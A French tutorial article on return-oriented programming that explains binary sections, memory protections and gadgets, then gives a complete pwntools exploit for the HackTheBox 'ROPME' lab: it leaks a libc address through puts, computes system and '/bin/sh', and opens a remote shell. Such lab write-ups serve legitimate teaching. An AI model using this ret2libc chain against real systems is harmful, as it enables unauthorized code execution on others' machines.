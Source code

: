 ```yaml
---
title: "Return-oriented programming (ROP)"
description: Article théorique et pratique sur le ROP
---
```


# Sommaire
1. [Les sections d'un binaire](#Les_sections)
2. [Les protections](#Les_protections)
3. [Qu'est ce que le ROP ?](#ROP)
4. [Exploitation + Walkthrough ROPME - HackTheBox](#ropme)

Avant de commencer à vous expliquer le ROP je vais devoir vous expliquer avant tout quelques notions essentielles à la bonne compréhension de la suite de cette article ! 😀

<div id='Les_sections'/>
# Les sections d'un binaire

Pour le ROP nous allons nous intéréssé particulièrement à ces sections :

### Global Offset Table (GOT)

La GOT (Global Offset Table) est une section qui effectue une résolution d'adresse de la libc pour un gain de temps au processeur. C'est un tableau de pointeurs qui stocke les vrais adresses des fonctions de la libc.

### Procedure Linkage Table (PLT)

La PLT (Procedure Linkage Table) est une section qui contient du code permettant de résoudre les fonctions de la libc exécutées dans le binaire. C'est une table servant à faire le lien avec les fonctions situées dans des bibliothèques dynamiques. Cette section se trouve à des adresses fixes

### Les segments d'un binaire

- Le segment TEXT contient le code du binaire
- Le segment BSS contient les variables non itilialisées, par exemple en C :
```c
char var[256];
```
- Le segment DATA contient les variables initialisées, par exemple en C : 
```c
char var[256] = "nuts";
```

<div id='Les_protections'/>
# Les protections des exécutables

- NX est une protection qui rend la pile Non eXécutable, cette technique empeche l'exécution d'un shellcode dans la stack.

- Le DEP (Data Execution Prevention) consiste à protéger les zones de mémoires non exécutables. L'activation de la fonctionnalité DEP consiste à passer le bit NX à 1 dans le processeur.

- L’ASLR (Address space layout randomization) est une technique permettant de placer de façon aléatoire les adresses de la stack, du tas et des bibliothèques partagées.

- PIE permet de placer de facon aléatoire des emplacements mémoires (comme l'ASLR) mais cette fois ci, pour la zone de code et la zone de donnée.

- Le canary ou la Stack Smashing Protection (SSP) est une protection qui est placé entre le buffer et le couple EBP et EIP (32 bits) ou RBP et RIP (64 bits). Si la valeur du canary est réecrite avec la mauvaise valeur alors le programme se ferme. (4 octets en 32 bits, 8 octets en 64 bits) Cependant, en assembleur nos ordinateurs vérifient octets par octets les chaines de caractères, alors nous pouvons brute force byte par byte la valeur du canary afin de la leak et de réecrire la bonne valeur du canary.

- Le Fortify Source permet de détecter certaines erreurs de développement causant un buffer overflow dans le code source d'une application lors de l'utilisation de diverses fonctions de manipulation de chaînes de caractères et de mémoire (par exemple, memcpy, memset, stpcpy, strcpy, strncpy, strcat, strncat, sprintf, snprintf, vsprintf, vsnprintf, gets)

- RELRO est une protection permettant de demander au linker de résoudre les fonctions de bibliothèques dynamiques au tout début de l’exécution, et donc de pouvoir remapper la section GOT et GOT.plt en lecture seule. 

<div id='ROP'/>
# Qu'est ce que le ROP ?

Le ROP (Return-oriented programming) est une technique d'exploitation reposant sur la recherche de blocs d'instructions à l'intérieur du binaire. Ces instructions terminent généralement par un ret, un call ou un jmp, c'est ce qu'on appel un **gadget**. Nous allons pouvoir chainer ces gadgets afin d'exécuter une suite d'actions, appelé **ROP Chain**.

<div id='ropme'/>
# Exploitation + Walkthrough ROPME - HackTheBox

```py
from pwn import *

HOST, PORT = '178.62.118.108', 30396 

#p = process('./ropme', stdin=PTY)
p = remote(HOST, PORT)
elf = ELF('./ropme')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

padding = b'A' * 72 # offset to overwrite RBP
gadget = 0x4006d3 # pop rdi ; ret
puts_plt = elf.plt['puts'] # 0x4004e0 (PLT in GEF)
puts_got = elf.got['puts'] # 0x601018 (GOT in GEF)
addr_main = elf.symbols['main'] # 0x400626 (1st Address Prologue Main Function)

p.recvuntil('ROP me outside, how \'about dah?\n') # wait str to send pld

pld = b''
pld += padding # buffer + overwrite RBP (8 octets)
pld += p64(gadget) # 1 argument (pop rdi ; ret)
pld += p64(puts_got) # to save addr puts of GOT in rdi register
pld += p64(puts_plt) # to print puts GOT
pld += p64(addr_main) # ret2main
p.sendline(pld) # send payload

puts_leak = u64(p.recvline().strip().ljust(8, b'\x00')) # to get valid address
log.info('Addr puts (GOT) leak : {}'.format(hex(puts_leak))) # print address puts leaked

libc_puts = 0x06f690
libc_binsh = 0x18cd17
libc_system = 0x045390

libc_base = puts_leak - libc_puts # calculate addr base
log.info('libc base at ' + hex(libc_base))

addr_system = libc_base + libc_system # calculate difference between base and system function

binsh = libc_base + libc_binsh # calculate difference between base and /bin/sh

log.info('System at ' + hex(addr_system))
log.info('/bin/sh at ' + hex(binsh))

p.recvuntil('ROP me outside, how \'about dah?\n') # wait str to send pld

pld = b''
pld += padding # offset to go save EIP 
pld += p64(gadget) # gadget to pass a parameter to called function (pop rdi ; ret)
pld += p64(binsh) # 
pld += p64(addr_system)

p.sendline(pld) # send payload 
p.interactive() # spawn interactive shell

p.close()
```
